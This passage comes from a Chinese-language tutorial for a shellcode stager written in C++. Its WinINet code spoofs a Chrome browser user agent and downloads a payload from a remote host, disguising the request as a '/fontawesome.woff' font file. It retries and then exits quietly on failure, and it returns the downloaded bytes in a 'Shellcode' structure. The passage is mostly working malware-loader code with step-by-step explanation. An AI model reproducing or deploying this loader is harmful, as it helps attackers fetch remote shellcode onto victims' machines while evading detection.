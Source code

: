     ```C++
    HINTERNET session = InternetOpen(L"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36", INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);
    
    HINTERNET connection = InternetConnect(session, host, port, L"", L"", INTERNET_SERVICE_HTTP, 0, 0);
    
    HINTERNET request = HttpOpenRequest(connection, L"GET", L"/fontawesome.woff", NULL, NULL, NULL, 0, 0);
    
    WORD counter = 0;
    while (!HttpSendRequest(request, NULL, 0, 0, 0)) {
        counter++;
        Sleep(3000);
        if (counter >= 3) {
            exit(0);
        }
    }
    ```

接下来将数据保存至缓冲区中

1. 定义一个缓冲区的大小，并创建一个指向缓冲区的`byte`类型的指针。
2. 分配一个动态内存，用于存储下载的数据，并初始化变量`payloadSize`为0。
3. 使用 `InternetReadFile` 循环读取下载的数据，每次读取`bufSize`大小的数据，保存到缓冲区中。如果读取失败，则退出程序。
4. 将缓冲区中的数据复制到动态分配的内存中，直到读取完所有的数据。如果内存不足，就重新分配更大的内存，并将数据复制到新的内存中。
5. 最后，将动态分配的内存指针保存到一个`byte`类型的指针中，并返回该指针。
    
    ```C++
    DWORD bufSize = BUFSIZ;
    byte* buffer = new byte[bufSize];
    DWORD capacity = bufSize;
    byte* payload = (byte*)malloc(capacity);
    DWORD payloadSize = 0;
    
    while (true) {
        DWORD bytesRead;
        if (!InternetReadFile(request, buffer, bufSize, &bytesRead)) {
            exit(0);
        }
        if (bytesRead == 0) break;
        if (payloadSize + bytesRead > capacity) {
            capacity *= 2;
            byte* newPayload = (byte*)realloc(payload, capacity);
            payload = newPayload;
        }
        for (DWORD i = 0; i < bytesRead; i++) {
            payload[payloadSize++] = buffer[i];
        }
    }
    byte* newPayload = (byte*)realloc(payload, payloadSize);
    ```

最后就是关闭方法及返回自定义结构体

```C++
    InternetCloseHandle(request);
    InternetCloseHandle(connection);
    InternetCloseHandle(session);

    struct Shellcode out;
    out.data = payload;
    out.len = payloadSize;
    return out;
```
